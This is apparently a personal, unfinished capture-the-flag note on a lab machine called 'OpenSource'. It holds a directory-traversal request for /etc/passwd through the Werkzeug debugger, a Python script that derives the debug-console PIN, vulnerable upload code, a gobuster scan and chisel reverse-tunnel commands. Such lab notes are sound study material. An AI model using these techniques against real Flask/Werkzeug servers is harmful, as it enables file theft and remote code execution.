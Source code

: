 # <span style="color:[COLOR]">Machine #27 OpenSource</span>  


## <span style="color:[COLOR]">Checklist 🤓   

- [x] It might be SSTI
- [x] There could be a way to upload a file onto the web server ( a php file ) and executing it by visiting it.
- [x] The `/console` directory.
- [ ] Try to accomplish port forwarding somehow so that I would be able to open up the local web server much easier.
- [ ] Research the Gitea version.

<br/><br/>


## <span style="color:[COLOR]">What Do We Have? 🤔🤔 
* `'/app/public/uploads/'`.
* The backend is Python.
* It's opensource (obviously).
* I have the code.
* It shows me an error when I press upload without supplying any file.
* I think I can see the error because DEBUG mode is true.
* The upload page seems to be using `Werkzeug`.
* I think we're in a testing environment (Not sure) in the demo that they provided.
* A local web server that I can only access through the container I got into.
* There's a `swagger` data in a file called `swagger.v1.json` which means I have all the api endpoints and there data.
* There's also a home page in the local web server that shows me that there's also a possibility that there exists a login and register page. But life would be so much easier if I can open the website on the browser that's why I'll play a bit with port forwarding.
* A technology used called "Gitea" version 1.16.6

<br/><br/>


## <span style="color:[COLOR]">Random Notes👀
* There are two methods `get_file_name` and `get_unique_file_name` and only the first one is being used.
* What the hell is this!   
```html
   <script>
      var CONSOLE_MODE = false,
          EVALEX = true,
          EVALEX_TRUSTED = false,
          SECRET = "QNJYyPKHPwUQu1DNLaas";
    </script>
```

```
GET /upcloud?__debugger__=yes&cmd=resource&f=../../../../../../../../etc/passwd
```
  
* The code that might get me the pin of the console  
```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flask',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None), //// cc289382c632
]

private_bits = [
    '2485377892360', #2485377892360# bstr(uuid.getnode()),  /sys/class/net/ens33/address ///02:42:AC:11:00:08 
    'cc289382c632'# get_machine_id(), /etc/machine-id  /// cc289382c632
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```  
* I need to generate the PIN but I don't have the username of the user who created the flask process and I also need other info that I should get through some kind of a directory traversal.  

```python

def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")


def recursive_replace(search, replace_me, with_me):
    if replace_me not in search:
        return search
    return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
 
```   

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))  
```



gobuster dir -u 10.10.11.164 -x 'txt,md,jpg,php,html' -w /usr/share/seclists/Discovery/Web-Content/big.txt -b '404,403'






* On my machine I should put the following command `./chisel server -p 8000 --reverse`.
* On the victim `./chisel client 10.10.14.4:8000 R:80:10.10.11.164:3000`
* Then after I do that you just go and open `http://localhost` on the browser and it will open it. YES!!!!
* It's like using a reverse proxy for port forwarding.
<br/><br/>  


## <span style="color:[COLOR]">How Did I Own This Shit 😎🥳  

<br/><br/>



## <span style="color:[COLOR]">Where I Got Stuck?😡😧  


<br/><br/>



## <span style="color:[COLOR]">What Did I learn from this Machine?👀  


<br/><br/>



## <span style="color:[COLOR]">Writeups ✍🏽📓   


<br/><br/>

<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->